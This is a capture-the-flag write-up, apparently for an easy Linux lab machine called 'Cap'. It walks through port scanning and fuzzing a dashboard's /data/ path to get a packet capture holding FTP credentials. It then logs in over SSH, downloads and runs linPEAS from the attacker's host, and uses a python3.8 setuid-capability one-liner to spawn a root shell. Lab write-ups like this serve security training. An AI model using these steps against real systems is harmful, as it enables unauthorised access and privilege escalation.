



# Machine Info
**IP**: 10.10.10.245

**OS**: Linux

**Difficulty**: Easy

# Passive Enumeration I

## **nmap**
### **Open Services**
```
$ nmap -T4 -p- 10.10.10.245
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-14 00:46 EDT
Nmap scan report for 10.10.10.245
Host is up (0.052s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
### **Advanced scan**
```
$ sudo nmap -T4 -p22,53,80 -A -O 10.129.126.40                                                                                                                     1 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-13 23:49 EDT
Nmap scan report for 10.129.126.40
Host is up (0.071s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 05:7c:5e:b1:83:f9:4f:ae:2f:08:e1:33:ff:f5:83:9e (RSA)
|   256 3f:73:b4:95:72:ca:5e:33:f6:8a:8f:46:cf:43:35:b9 (ECDSA)
|_  256 cc:0a:41:b7:a1:9a:43:da:1b:68:f5:2a:f8:2a:75:2c (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyna DNS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   53.50 ms 10.10.16.1
2   25.96 ms 10.129.126.40
```
## **Enumerating HTTP**
The website is a dashboard with 3 options: IP Config, Network Status, and Security Snapshot.



Of the three, the one we will focus on is the snapshot. This provides us with a 5 second snapshot of the network packets that were captured by the machine. However, the snapshot does not contain any data and all counts are 0.



As we can see, the option redirects us to the URL, http://10.10.10.245/data/1, and fuzzing the URL we find that for "/data/0" we get some values. Downloading the data and opening it with Wireshark, we find FTP packets with the credentials for user "nathan".



Now, we can connect to the target machine using the obtained credentials.

# Exploitation
## **Connecting to SSH**
```
$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun 15 03:10:52 UTC 2021

  System load:           0.0
  Usage of /:            34.8% of 8.73GB
  Memory usage:          20%
  Swap usage:            0%
  Processes:             220
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:a161

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ whoami
nathan
```
# Enumeration II
The user "nathan" does not have privilege to run any commands as sudo. So, I copied over the linPEAS script to check for privilege escalation vectors.

```
nathan@cap:~$ wget 10.10.16.173/linpeas.sh
--2021-06-15 03:16:47--  http://10.10.16.173/linpeas.sh
Connecting to 10.10.16.173:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 342868 (335K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                 100%[=====================================================================================>] 334.83K   938KB/s    in 0.4s    

2021-06-15 03:16:47 (938 KB/s) - ‘linpeas.sh’ saved [342868/342868]

nathan@cap:~$ ls
linpeas.sh  user.txt
nathan@cap:~$ chmod +x linpeas.sh 
nathan@cap:~$ ./linpeas.sh 
...
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

...
```
We can also manually search for files with capabilities as below.
```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The hacktricks entry for capabilities mentions that capabilities allow processes to run with elevated privileges but not the full set of privilege. So, any program that has the ability to call setUID() can be used to elevate our privilege.

# Privilege Escalation
Enumeration identified python3.8 to have the capability to set the UID and using it to spawn a shell achieves our goal.
```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

# Post-Exploitation
## **User Flag**
```
nathan@cap:~$ cat user.txt 
fc****************************64
```
## **Root Flag**
```
root@cap:/root# cat root.txt 
f2****************************2a
```